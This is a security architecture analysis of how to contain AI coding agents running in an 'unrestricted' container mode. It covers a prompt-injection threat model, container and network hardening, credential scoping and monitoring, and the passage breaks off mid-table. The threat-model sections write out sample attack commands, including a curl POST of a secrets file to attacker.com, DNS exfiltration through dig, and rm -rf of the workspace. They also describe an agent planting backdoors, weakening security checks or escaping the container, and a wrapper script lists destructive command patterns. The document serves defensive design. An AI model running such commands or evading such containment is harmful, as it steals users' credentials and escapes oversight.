



# Security Architecture Analysis: Unrestricted Agent Mode

**Date:** 2025-11-17  
**Purpose:** Design the safest possible architecture for running AI coding agents in fully unrestricted mode with minimal confirmation prompts while maintaining absolute host isolation.

## Executive Summary

This analysis examines the current CodingAgents architecture and proposes enhancements for a "safe-unrestricted mode" that balances security with usability. The goal is to enable agents to work with minimal friction while structurally preventing catastrophic outcomes.

### Key Findings

**Current Security Posture:** Strong foundation with container isolation, non-root users, read-only credential mounts, and network controls.

**Critical Gap Identified:** `launch-agent.ps1` does NOT drop Linux capabilities (unlike `run-agent.ps1`), leaving a potential privilege escalation vector.

**Achievable Safety Level:** With proposed hardening, unrestricted mode can safely support:
- Full filesystem access within /workspace
- External network access via allowlist/proxy for MCPs
- Package installation and builds within containers
- Git operations with host credential proxying

**Unmitigatable Risks with Network Access:**
- Data exfiltration of visible secrets (model API keys, GitHub tokens)
- Lateral movement using exposed credentials
- These are inherent to the agent's legitimate function and require monitoring, not blocking

---

## Phase 1: Current Architecture Analysis

### 1.1 Container Configuration

**Base Image:** `docker/base/Dockerfile`
- Ubuntu 24.04 LTS base
- Non-root user: `agentuser` (UID 1000)
- Development tools: Node.js, .NET, Python, PowerShell, build-essential
- MCP servers: GitHub, Playwright, Sequential Thinking, Serena, Context7

**Security Properties:**
- ✅ Non-root execution (USER agentuser at line 210-225)
- ✅ No privileged mode
- ✅ No docker.sock access (confirmed via grep search)
- ⚠️  **CRITICAL GAP:** `launch-agent.ps1` missing `--cap-drop=ALL` (present in `run-agent.ps1`)
- ✅ `--security-opt no-new-privileges:true` (prevents privilege escalation)
- ✅ Resource limits: `--cpus` and `--memory`
- ✅ PID limits: `--pids-limit=4096` (in run-agent.ps1)

### 1.2 Filesystem Mounts

**Current Mounts** (from `launch-agent.ps1` lines 467-596):

**Read-only credential mounts:**
```
~/.gitconfig:/home/agentuser/.gitconfig:ro
~/.config/gh:/home/agentuser/.config/gh:ro
~/.config/github-copilot:/home/agentuser/.config/github-copilot:ro
~/.config/codex:/home/agentuser/.config/codex:ro (if present)
~/.config/claude:/home/agentuser/.config/claude:ro (if present)
~/.mcp-secrets.env:/home/agentuser/.mcp-secrets.env:ro (if present)
```

**Read-only proxy sockets (most secure):**
```
/tmp/git-credential-proxy.sock:/tmp/git-credential-proxy.sock:ro
/tmp/gpg-proxy.sock:/tmp/gpg-proxy.sock:ro
/tmp/ssh-agent.sock:/tmp/ssh-agent.sock:ro (SSH_AUTH_SOCK forwarding)
```

**Fallback credential files:**
```
~/.git-credentials:/home/agentuser/.git-credentials:ro (if proxy unavailable)
```

**Workspace mounts:**
```
/tmp/source-repo:/tmp/source-repo:ro (for local repos, initial clone)
/tmp/local-remote:/tmp/local-remote (for local Git remote, read-write)
```

**Key Finding:** No host system paths (/, /var, /usr, /etc) are mounted. Workspace is an ephemeral copy inside the container at `/workspace`.

### 1.3 Network Configuration

**Three network modes** (SECURITY.md lines 30-96):

1. **allow-all (default):** Standard Docker bridge, full internet access
2. **restricted:** `--network none`, complete isolation
3. **squid:** Sidecar proxy with domain allowlist

**Squid Proxy Implementation:**
- Enforces domain allowlist via `allowed-domains.txt`
- Logs all HTTP/HTTPS requests
- No on-disk caching
- Default allowlist includes: github.com, githubcopilot.com, nuget.org, npmjs.org, pypi.org, docker.io, etc.

**Finding:** Network control is well-designed. Squid mode provides good balance of functionality and auditability.

### 1.4 Secrets Exposure

**Secrets visible to agents:**
- Model API keys (GitHub Copilot, OpenAI, Anthropic) - mounted read-only from host
- GitHub tokens (via gh CLI config or git-credentials)
- SSH keys (via SSH agent socket forwarding)
- GPG keys (via GPG proxy socket, never directly mounted)
- MCP secrets (from `~/.config/coding-agents/mcp-secrets.env`)

**Finding:** Credentials are appropriately scoped and read-only. GPG/SSH use socket proxying (most secure). However, exposed tokens CAN be exfiltrated if agent has network access.

### 1.5 Tool and Capability Analysis

**Tools Available in Containers:**
- Shell (bash, zsh): Full command execution within container
- File operations: Read/write to /workspace and /tmp
- Git: Full git operations with proxied credentials
- Package managers: npm, pip, dotnet, apt (as agentuser, no sudo)
- Network: HTTP/HTTPS clients (curl, wget)
- Build tools: gcc, make, MSBuild, etc.
- Docker CLI: NOT installed (confirmed)

**MCP Tools Available:**
- github-mcp-server: GitHub API operations
- playwright-mcp: Browser automation
- serena: Semantic code navigation and editing
- context7: External documentation lookup
- sequential-thinking: Planning and decision-making

**Finding:** Agents have powerful tools but cannot:
- Install system packages (no sudo)
- Access host filesystem (only /workspace is mounted)
- Control Docker daemon (no docker.sock)
- Escalate privileges (no-new-privileges + non-root)

### 1.6 Existing Safety Measures

**Confirmed protections:**
1. Container isolation with non-root user
2. No privileged mode
3. No docker.sock access
4. Read-only credential mounts
5. Branch isolation (agents work on dedicated branches like `copilot/session-N`)
6. Network proxy mode with allowlist
7. Auto-commit/push on shutdown with sanitized commit messages
8. Resource limits (CPU, memory, PIDs)

**Existing prompts/confirmations:**
- Branch conflict resolution (if agent branch exists)
- Network mode selection (implicit via CLI flag)
- Force flag for overwriting existing branches

---

## Phase 2: Threat Model (Prompt Injection Focused)

### 2.1 Threat Model Assumptions

**Trusted:**
- Container runtime (Docker/Podman)
- Base images and dependencies
- Host OS and filesystem

**Untrusted:**
- Agent behavior after receiving prompts (prompt injection risk)
- Code in the workspace repository
- External API responses

**Attacker Goals:**
1. Exfiltrate sensitive data (credentials, source code)
2. Modify code to inject backdoors
3. Gain persistence in CI/CD
4. Perform lateral movement to other systems
5. Escape container to host
6. Destroy or corrupt development work

### 2.2 Risk Category Analysis

#### 2.2.1 Destructive Local Changes (Within Container/Workspace)

**Risk Level:** HIGH  
**Classification:** ACTUAL RISK

**Attack Vectors:**
- Delete or corrupt files in /workspace: `rm -rf /workspace/*`
- Rewrite git history: `git filter-branch`, `git rebase --root`
- Delete all branches: `git branch -D $(git branch | grep -v main)`
- Corrupt build artifacts or configurations
- Break CI/CD pipelines stored in repo

**Current Mitigations:**
- Branch isolation (changes on `agent/session-N` branch)
- Auto-commit on shutdown (partial protection)
- Host still has original repo (workspace is a copy)

**Impact with Mitigations:**
- Agent can destroy its own workspace copy
- Agent CANNOT destroy host's original repository
- Damage is limited to the agent's branch
- User can discard agent branch or restore from git history

**Structural Mitigation Needed:**
- Git snapshots/tags before large operations
- Rate limiting on destructive git operations
- Readonly workspace option for audit/review tasks

#### 2.2.2 Data Exfiltration

**Risk Level:** HIGH  
**Classification:** ACTUAL RISK (with network access)

**Attack Vectors:**
- Read secrets from mounted config files: `cat ~/.config/gh/hosts.yml`
- Read MCP secrets: `cat ~/.mcp-secrets.env`
- Exfiltrate via HTTP: `curl -X POST https://attacker.com -d @~/.mcp-secrets.env`
- Exfiltrate via model API: Encode data in prompts
- Exfiltrate via GitHub: Push sensitive data to public repo
- Exfiltrate via DNS: `dig $(base64 secret).attacker.com`

**Current Mitigations:**
- Restricted network mode blocks all outbound
- Squid proxy mode logs all HTTP/HTTPS
- Domain allowlist in squid mode
- Credentials are read-only (cannot modify to persist)

**Impact with Mitigations:**
- In `allow-all` mode: Full exfiltration possible
- In `squid` mode: Exfiltration limited to allowlisted domains + logged
- In `restricted` mode: No exfiltration (no network)

**Fundamental Limitation:**
Agents NEED credentials to function (GitHub API, model APIs). If agent has network access and can read credentials, exfiltration is always possible. This is an inherent tradeoff.

**Structural Mitigations Available:**
- Use scoped, short-lived tokens when possible
- Mediate high-value operations via proxy (agent requests, host approves)
- Comprehensive logging in squid mode
- Alert on suspicious patterns (large data uploads, non-allowlisted destinations)
- Separate "audit mode" credentials with read-only GitHub access

#### 2.2.3 Lateral Movement

**Risk Level:** MEDIUM  
**Classification:** ACTUAL RISK (depends on credential scope)

**Attack Vectors:**
- Use GitHub token to access other private repos
- Use SSH keys to access other systems
- Use cloud credentials (if present in MCP secrets)
- Pivot to internal networks (if container has access)

**Current Mitigations:**
- Credentials are scoped to what user already has
- SSH agent forwarding (not key copying) limits exposure
- Network modes can restrict outbound destinations

**Impact with Mitigations:**
- Agent can do anything the user can do (by design)
- Damage limited by credential scope
- Network proxy can restrict destinations

**Structural Mitigations Available:**
- Use credential scoping (GitHub: restrict to single repo)
- Use OAuth apps with minimal permissions
- Cloud service accounts with IAM restrictions
- Network egress filtering to block internal networks

#### 2.2.4 Persistence / Backdoors

**Risk Level:** HIGH  
**Classification:** ACTUAL RISK

**Attack Vectors:**
- Inject malicious code into repository
- Modify CI/CD configurations (.github/workflows/*)
- Add backdoor dependencies (package.json, requirements.txt, etc.)
- Create reverse shells in startup scripts
- Modify git hooks

**Current Mitigations:**
- Branch isolation (not merged automatically)
- User reviews changes before merging
- Auto-commit provides audit trail

**Impact with Mitigations:**
- Agent CAN inject malicious code on its branch
- Code does NOT automatically reach main/production
- User review is the final defense

**Structural Mitigations Available:**
- Automated scanning on agent branches (static analysis, dependency check)
- Separate "review mode" that disallows CI/CD modification
- Allowlist of modifiable file patterns
- Require human approval for CI/CD changes

#### 2.2.5 Silent Weakening

**Risk Level:** MEDIUM  
**Classification:** ACTUAL RISK

**Attack Vectors:**
- Disable security checks in CI/CD
- Remove rate limiting or auth checks
- Weaken cryptographic parameters
- Comment out logging or monitoring
- Relax input validation

**Current Mitigations:**
- Code review before merge
- Git diff visibility

**Impact:**
- Agent CAN weaken security on its branch
- User must catch during review

**Structural Mitigations Available:**
- Security-focused static analysis on agent branches
- Automated diff analysis looking for security regressions
- Require approval for changes to security-critical files

#### 2.2.6 Container Escape / Host Tampering

**Risk Level:** CRITICAL (if possible) / LOW (with current setup)  
**Classification:** THEORETICAL RISK (no current path identified)

**Attack Vectors (Generic):**
- Exploit kernel vulnerabilities
- Exploit container runtime vulnerabilities
- Access docker.sock (NOT present)
- Use privileged mode (NOT enabled)
- Use dangerous capabilities (CAP_SYS_ADMIN, etc.)
- Exploit mounted host filesystems (only /workspace mounted)

**Current Mitigations:**
- Non-root user (UID 1000)
- No docker.sock access (confirmed)
- No privileged mode (confirmed)
- `--security-opt no-new-privileges:true`
- ⚠️  **GAP:** `launch-agent.ps1` missing `--cap-drop=ALL`
- No host system mounts beyond workspace
- Modern container runtime security

**Finding:** No obvious container escape path with current configuration, EXCEPT the missing `--cap-drop=ALL` in launch-agent.ps1.

**Critical Priority:** Add `--cap-drop=ALL` to `launch-agent.ps1` to match `run-agent.ps1`.

**Additional Hardening Available:**
- Add seccomp profile (restrict syscalls)
- Add AppArmor/SELinux profile
- Use user namespaces (if not already)
- Regular security updates to container runtime

---

## Phase 3: Hardened Architecture Design

### 3.1 Container/Sandbox Hardening

**Priority 1: Fix Critical Gap**
```powershell
# Add to launch-agent.ps1 (around line 611)
$dockerArgs += "--cap-drop=ALL"
```

**Priority 2: Enhanced Security Options**
```powershell
# Seccomp profile to restrict syscalls
$dockerArgs += "--security-opt", "seccomp=default"

# AppArmor profile (if available)
if (Test-Path "/etc/apparmor.d/docker-default") {
    $dockerArgs += "--security-opt", "apparmor=docker-default"
}

# Read-only root filesystem (with writable /workspace and /tmp)
$dockerArgs += "--read-only"
$dockerArgs += "--tmpfs", "/tmp:rw,noexec,nosuid,size=2g"
$dockerArgs += "-v", "workspace-rw:/workspace:rw"
```

**Priority 3: Additional Hardening**
```powershell
# Disable inter-container communication
$dockerArgs += "--icc=false"

# Drop all capabilities by default
$dockerArgs += "--cap-drop=ALL"

# Only add back strictly necessary capabilities (if any)
# (Currently none needed for typical development)
```

### 3.2 Filesystem Isolation Enhancement

**Current State:** Good isolation, workspace is ephemeral copy.

**Enhancements:**

1. **Dedicated Scratch Directory**
```bash
# In entrypoint.sh
mkdir -p /workspace/.agent-scratch
chmod 1777 /workspace/.agent-scratch  # Sticky bit
export AGENT_SCRATCH=/workspace/.agent-scratch
```

2. **Git Snapshot Before Large Operations**
```bash
# New utility: /usr/local/bin/git-safe-operation
#!/bin/bash
set -euo pipefail

OPERATION=$1
shift

# Create snapshot tag
SNAPSHOT_TAG="agent-snapshot-$(date +%s)"
git tag "$SNAPSHOT_TAG" 2>/dev/null || true

echo "📸 Snapshot created: $SNAPSHOT_TAG"
echo "💡 To restore: git reset --hard $SNAPSHOT_TAG"

# Perform operation
"$OPERATION" "$@"
```

3. **Filesystem Confinement Validation**
```bash
# Add to entrypoint.sh or agent-session
validate_workspace_confinement() {
    # Verify workspace is not host root
    if [ "$(stat -c %d /)" = "$(stat -c %d /workspace)" ]; then
        echo "❌ SECURITY: Workspace appears to be host root!" >&2
        exit 1
    fi
    
    # Verify no sensitive host paths are mounted
    for path in /var/run/docker.sock /proc /sys/fs/cgroup; do
        if [ -e "$path" ] && [ "$(stat -c %d /)" = "$(stat -c %d $path)" ]; then
            echo "❌ SECURITY: Host path $path is accessible!" >&2
            exit 1
        fi
    done
}
```

### 3.3 Network Hardening (With MCP Support)

**Goal:** Allow necessary external access while reducing exfiltration risk.

**Recommended Default for Unrestricted Mode:** `squid` proxy with enhanced allowlist

**Enhanced Squid Configuration:**

```bash
# Tiered domain allowlist
TIER1_ALWAYS_ALLOW="
api.githubcopilot.com
api.openai.com
api.anthropic.com
*.github.com
*.githubusercontent.com
"

TIER2_PACKAGE_MANAGERS="
*.npmjs.org
*.pypi.org
*.nuget.org
registry-1.docker.io
"

TIER3_DOCS_APIS="
learn.microsoft.com
docs.microsoft.com
platform.uno
*.readthedocs.io
*.stackoverflow.com
"

# Block private IPs and cloud metadata
BLOCKED_PATTERNS="
169.254.169.254  # AWS/Azure/GCP metadata
10.0.0.0/8       # Private
172.16.0.0/12    # Private
192.168.0.0/16   # Private
"
```

**Squid Enhancements (docker/proxy/squid.conf):**
```squid
# Block cloud metadata endpoints
acl metadata_endpoints dst 169.254.169.254
http_access deny metadata_endpoints

# Block private IP ranges
acl private_ips dst 10.0.0.0/8 172.16.0.0/12 192.168.0.0/16
http_access deny private_ips

# Rate limiting for large uploads
reply_body_max_size 100 MB

# Request size limiting
request_body_max_size 10 MB

# Enhanced logging for forensics
logformat combined %>a %[ui %[un [%tl] "%rm %ru HTTP/%rv" %>Hs %<st "%{Referer}>h" "%{User-Agent}>h" %Ss:%Sh
access_log daemon:/var/log/squid/access.log combined
```

**Network Policy Matrix:**

| Mode | Outbound | Allowlist | Logging | Use Case |
|------|----------|-----------|---------|----------|
| restricted | None | N/A | N/A | Untrusted code review |
| squid-strict | Filtered | Tier 1 only | Full | Sensitive projects |
| squid-balanced | Filtered | Tier 1+2+3 | Full | **Default unrestricted** |
| allow-all | Full | None | None | Trusted, fast iteration |

### 3.4 Secret Exposure Minimization

**Current State:** Credentials are read-only but fully visible.

**Enhancement Strategies:**

1. **Scoped Token Generation**
```bash
# New tool: generate-scoped-github-token
# Creates short-lived, repo-scoped token instead of full access
#!/bin/bash
gh auth token --scopes "repo:$WORKSPACE_REPO" --expires 1h
```

2. **Credential Mediator Service**
```python
# New MCP server: credential-mediator
# Agent requests credentials, user approves on host
class CredentialMediator:
    def request_github_access(self, repo, operation):
        # Send approval request to host
        # User approves/denies via GUI
        # Return scoped, time-limited token
        pass
```

3. **Tiered Credential Access**
```yaml
# Three credential tiers
tier_1_always_available:
  - github_token: read-only, current repo only
  - model_api_keys: standard rate limits

tier_2_logged_and_limited:
  - github_token: write access
  - aws_credentials: read-only

tier_3_requires_approval:
  - github_token: admin operations
  - aws_credentials: write access
  - production_credentials: any access
```

4. **Environment Variable Filtering**
```bash
# In entrypoint.sh
# Remove dangerous env vars before agent starts
unset AWS_SECRET_ACCESS_KEY
unset AWS_SESSION_TOKEN
unset KUBERNETES_SERVICE_HOST

# Keep only necessary ones
ALLOWED_ENV="HOME USER PATH GITHUB_TOKEN OPENAI_API_KEY ANTHROPIC_API_KEY"
```

### 3.5 Tool Danger Matrix and Tiered Policy

**Tool Classification:**

| Tool/Action | Destructive | Exfiltration | Lateral Movement | Host Escape | Tier | Mitigation |
|-------------|-------------|--------------|------------------|-------------|------|------------|
| **File System Operations** |
| Read files in /workspace | None | High¹ | None | None | 1 | Allow always |
| Write files in /workspace | Medium² | None | None | None | 1 | Allow always |
| Delete files in /workspace | High³ | None | None | None | 1 | Allow w/ git snapshot |
| Write to /tmp | Low | None | None | None | 1 | Allow always |
| Read ~/.config/gh | None | Critical | None | None | 1 | Read-only mount |
| **Git Operations** |
| git status, diff, log | None | Low | None | None | 1 | Allow always |
| git commit | None | None | None | None | 1 | Allow always |
| git push (to local remote) | None | None | None | None | 1 | Allow always |
| git push (to origin) | Medium⁴ | Medium⁵ | None | None | 2 | Log + rate limit |
| git reset --hard | High³ | None | None | None | 2 | Require snapshot |
| git filter-branch | Critical | None | None | None | 3 | Block or prompt |
| **Network Operations** |
| HTTP GET (allowlisted) | None | None⁶ | None | None | 1 | Allow via proxy |
| HTTP POST (allowlisted) | None | High | Medium | None | 2 | Allow via proxy + log |
| HTTP (non-allowlisted) | None | Critical | High | None | 3 | Block in squid mode |
| DNS queries | None | Medium⁷ | Low | None | 2 | Log via proxy |
| **Package Management** |
| npm install (from registry) | Low⁸ | None | None | None | 1 | Allow via proxy |
| pip install (from PyPI) | Low⁸ | None | None | None | 1 | Allow via proxy |
| npm install (from git/URL) | Medium | Medium | Medium | None | 2 | Warn + log |
| apt install | N/A⁹ | N/A | N/A | N/A | - | Blocked (no sudo) |
| **Build/Execution** |
| Compile code (gcc, msbuild) | None | None | None | None | 1 | Allow always |
| Run tests | None | None¹⁰ | None | None | 1 | Allow always |
| Execute workspace binaries | High³ | High | High | Low¹¹ | 2 | Allow w/ monitoring |
| **MCP Operations** |
| GitHub MCP (read) | None | Medium | Low | None | 1 | Allow always |
| GitHub MCP (write) | Medium | None | Medium | None | 2 | Log + rate limit |
| Playwright (allowlisted) | None | Low | None | None | 1 | Allow via proxy |
| Serena (read) | None | Low | None | None | 1 | Allow always |
| Serena (edit) | Medium² | None | None | None | 1 | Allow always |
| **Container Operations** |
| docker commands | N/A⁹ | N/A | N/A | N/A | - | Blocked (no docker CLI) |
| /var/run/docker.sock | N/A | N/A | N/A | Critical | - | Not mounted |

**Footnotes:**
1. Can exfiltrate source code or secrets in workspace
2. Can modify code to inject backdoors (on agent branch)
3. Damage limited to agent's workspace/branch
4. Can push malicious code to remote (still on agent branch)
5. Could push secrets to public repo
6. Via squid logs, can detect exfiltration patterns
7. DNS tunneling possible but limited
8. Malicious packages possible, but in isolated container
9. Blocked by non-root user (no sudo)
10. Tests could contain exfiltration code
11. Theoretical kernel exploit if binary is malicious

**Tier Definitions:**

- **Tier 1 (Green - Always Allow):** Safe or easily reversible operations. No prompts.
- **Tier 2 (Yellow - Log and Monitor):** Higher risk but necessary for development. No prompts, but log for forensics.
- **Tier 3 (Red - Restrict or Prompt):** Dangerous operations. Block in unrestricted mode or require explicit confirmation.

**Default Unrestricted Mode Policy:**
- Tier 1: Silent, always allowed
- Tier 2: Silent, but logged and rate-limited
- Tier 3: Blocked by architecture (no docker.sock, no sudo) or requires explicit opt-in

---

## Phase 4: Safe Abstractions and Implementation

### 4.1 Safe Abstraction Layer

**Goal:** Enforce safety in reusable wrappers instead of at every call site.

**1. Safe File Writer**
```bash
#!/bin/bash
# /usr/local/bin/safe-file-write
set -euo pipefail

FILE="$1"
CONTENT="$2"

# Validate file is within workspace
WORKSPACE_ROOT="/workspace"
REAL_PATH="$(realpath -m "$FILE")"

if [[ "$REAL_PATH" != "$WORKSPACE_ROOT"* ]]; then
    echo "❌ ERROR: Cannot write outside workspace: $FILE" >&2
    exit 1
fi

# Validate not overwriting git internals
if [[ "$REAL_PATH" == "$WORKSPACE_ROOT/.git"* ]]; then
    echo "⚠️  WARNING: Writing to .git directory: $FILE" >&2
    # Allow but log
fi

# Write file
echo "$CONTENT" > "$REAL_PATH"
```

**2. Safe Shell Executor**
```bash
#!/bin/bash
# /usr/local/bin/safe-shell-exec
set -euo pipefail

COMMAND="$1"

# Block obviously dangerous patterns
BLOCKED_PATTERNS=(
    "rm -rf /"
    "dd if=/dev/zero"
    ":(){ :|:& };:"  # Fork bomb
    "/dev/sda"
    "/dev/nvme"
)

for pattern in "${BLOCKED_PATTERNS[@]}"; do
    if [[ "$COMMAND" == *"$pattern"* ]]; then
        echo "❌ BLOCKED: Dangerous command pattern: $pattern" >&2
        exit 1
    fi
done

# Execute in workspace context
cd /workspace
bash -c "$COMMAND"
```

**3. Safe Network Client**
```python
#!/usr/bin/env python3
# /usr/local/bin/safe-http-request
import sys
import os
import requests

def is_allowed_domain(url):
    # Check against squid allowlist
    # Or enforce here if not using squid
    allowlist = os.getenv('ALLOWED_DOMAINS', '').split(',')
    from urllib.parse import urlparse
    domain = urlparse(url).netloc
    
    # Check allowlist
    for allowed in allowlist:
        if allowed.startswith('*.'):
            if domain.endswith(allowed[2:]):
                return True
        elif domain == allowed:
            return True
    
    # Block private IPs
    if domain.startswith('10.') or domain.startswith('192.168.') or domain.startswith('172.'):
        return False
    
    # Block metadata endpoints
    if domain == '169.254.169.254':
        return False
    
    return False

def main():
    url = sys.argv[1]
    
    if not is_allowed_domain(url):
        print(f"❌ BLOCKED: Domain not in allowlist: {url}", file=sys.stderr)
        sys.exit(1)
    
    # Make request via squid proxy if configured
    proxies = {}
    if os.getenv('http_proxy'):
        proxies['http'] = os.getenv('http_proxy')
        proxies['https'] = os.getenv('https_proxy')
    
    response = requests.get(url, proxies=proxies)
    print(response.text)

if __name__ == '__main__':
    main()
```

### 4.2 Attack Chain Analysis

**Example Attack Chain 1: Data Exfiltration**

| Step | Attacker Action | Current Defense | Proposed Enhancement |
|------|----------------|-----------------|---------------------|
| 1 | Read ~/.mcp-secrets.env | Read-only mount (cannot modify) | ✅ Keep read-only |
| 2 | Base64 encode secrets | None | ⚠️ Inherent to computation |
| 3 | POST to attacker.com | Squid blocks non-allowlisted | ✅ Keep squid default |
| 4 | Alternative: Encode in DNS | DNS via proxy | ➕ Add DNS monitoring |
| 5 | Alternative: Exfil via GitHub | Squid allows, logs request | ➕ Alert on large pushes |
| 6 | Alternative: Exfil via model API | Allowed by design | ➕ Rate limit API calls |

**Mitigations Applied:**
- Default squid mode blocks most exfiltration
- DNS and model API exfiltration harder but possible
- Monitoring and alerting on suspicious patterns
- **Fundamental limit:** Agent needs credentials to function

**Example Attack Chain 2: Backdoor Injection**

| Step | Attacker Action | Current Defense | Proposed Enhancement |
|------|----------------|-----------------|---------------------|
| 1 | Modify CI/CD workflow | Agent can write to workspace | ⚠️ Allowed on agent branch |
| 2 | Inject reverse shell | Agent can write code | ⚠️ Allowed on agent branch |
| 3 | Commit changes | Auto-commit on shutdown | ⚠️ Creates audit trail |
| 4 | Push to remote | Pushes to "local" remote | ⚠️ Still on agent branch |
| 5 | Trick user into merging | Social engineering | ➕ Automated security scan |

**Mitigations Applied:**
- Branch isolation prevents auto-merge
- User review is final defense
- **Enhancement:** Automated security scanning on agent branches before review

**Example Attack Chain 3: Container Escape (Theoretical)**

| Step | Attacker Action | Current Defense | Proposed Enhancement |
|------|----------------|-----------------|---------------------|
| 1 | Exploit kernel vuln | Non-root user | ✅ Keep non-root |
| 2 | Escalate privileges | no-new-privileges | ✅ Keep enabled |
| 3 | Use dangerous capability | ⚠️ launch-agent missing --cap-drop | ✅ **FIX: Add --cap-drop=ALL** |
| 4 | Access docker.sock | Not mounted | ✅ Keep not mounted |
| 5 | Write to host FS | No host mounts | ✅ Keep no host mounts |
| 6 | Break out of namespace | Modern container runtime | ➕ Add seccomp/AppArmor |

**Mitigations Applied:**
- **CRITICAL FIX:** Add `--cap-drop=ALL` to launch-agent.ps1
- No obvious escape path after fix
- Additional hardening with seccomp/AppArmor

### 4.3 Safe-Unrestricted Mode Profile

**Default Configuration for "Unrestricted Mode":**

```yaml
name: safe-unrestricted
description: Maximum productivity with structural safety

container:
  user: agentuser (UID 1000)
  privileged: false
  capabilities: []  # All dropped
  security_opt:
    - no-new-privileges:true
    - seccomp=default
    - apparmor=docker-default
  read_only_rootfs: true
  tmpfs:
    /tmp: rw,noexec,nosuid,size=2g
  resources:
    cpus: "4"
    memory: "8g"
    pids_limit: 4096

filesystem:
  workspace: /workspace (read-write, ephemeral copy)
  scratch: /tmp (tmpfs, 2GB)
  host_mounts:
    credentials: read-only
    workspace_source: none (cloned inside)
  
network:
  mode: squid-balanced
  proxy: true
  allowlist:
    - tier1: Always allowed (model APIs, GitHub)
    - tier2: Package managers
    - tier3: Docs and references
  blocked:
    - private_ips: 10.0.0.0/8, 172.16.0.0/12, 192.168.0.0/16
    - metadata: 169.254.169.254
  logging: full

credentials:
  github_token: read-only mount, scoped to single repo
  model_api_keys: read-only mount
  ssh_keys: agent forwarding only
  gpg_keys: proxy only
  scope: minimal necessary for function

git:
  branch: dedicated agent branch (e.g., copilot/session-1)
  auto_commit: true
  auto_push: local remote only
  snapshots: before large operations

monitoring:
  squid_logs: enabled
  resource_usage: enabled
  alert_patterns:
    - large_uploads: > 10MB
    - non_allowlisted_domains: any
    - rapid_api_calls: > 100/min

prompts:
  branch_conflict: yes (safety check)
  tier3_operations: yes (destructive operations)
  tier1_tier2: no (silent operation)
```

**Key Principle:** Safety through structure, not prompts.

### 4.4 UX / Prompt Policy

**Goal:** Minimize prompts while maintaining safety.

**Prompt Matrix:**

| Action Category | Prompt? | Rationale |
|-----------------|---------|-----------|
